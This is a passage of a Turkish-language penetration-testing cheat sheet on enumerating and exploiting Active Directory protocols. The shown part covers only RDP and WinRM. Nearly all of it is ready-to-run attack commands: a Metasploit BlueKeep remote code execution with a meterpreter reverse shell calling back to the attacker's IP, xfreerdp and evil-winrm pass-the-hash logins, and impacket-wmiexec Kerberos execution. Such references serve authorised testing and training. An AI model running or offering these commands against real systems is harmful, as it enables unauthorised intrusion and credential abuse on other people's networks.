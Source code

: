 # AD Ortamında 12 Protokolün Gelişmiş Düzeyde Enumeration ve Exploitation Rehberi

Bu rehber, Active Directory ortamında RDP, WinRM, LDAP, NFS, VNC, SMB, WMI, FTP, SSH, MSSQL, RPC ve SNMP protokollerine yönelik ileri seviye enumeration ve exploitation tekniklerini kapsamaktadır.

---

## 1. Remote Desktop Protocol (RDP)
### Gelişmiş Enumeration
**CredSSP Zafiyetlerini Kontrol Etme:**
```bash
nmap -p 3389 --script rdp-ntlm-info <hedef-ip>
```
**Açık Oturumları Kontrol Etme:**
```bash
rdp-sec-check.py -t <hedef-ip>
```

### Gelişmiş Exploitation
**xfreerdp ile Pass-the-Hash Saldırısı:**
```bash
xfreerdp /u:<kullanıcı-adı> /d:<domain> /pth:<NTLM hash> /v:<hedef-ip>
```
**BlueKeep Remote Code Execution:**
```bash
msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS <hedef-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <kendi-ip>
run
```

---

## 2. Windows Remote Management (WinRM)
### Gelişmiş Enumeration
**WinRM Kullanılabilir Kimlik Doğrulama Yöntemlerini Tespit Etme:**
```bash
nmap -p 5985,5986 --script http-auth --script-args http-auth.path="/wsman",http-auth.method=auto <hedef-ip>
```
**Evil-WinRM ile Kullanılabilir Komutları Listeleme:**
```bash
evil-winrm -i <hedef-ip> -u <kullanıcı-adı> -p <şifre> -e /path/to/extensions
```

### Gelişmiş Exploitation
**Kerberos Tabanlı Exploitation:**
```bash
impacket-wmiexec -k -no-pass <kullanıcı-adı>@<hedef-ip>
```
**Post-Exploitation Komut Çalıştırma:**
```bash
evil-winrm -i <hedef-ip> -u <kullanıcı-adı> -H <NTLM hash> -p <şifre>
```

---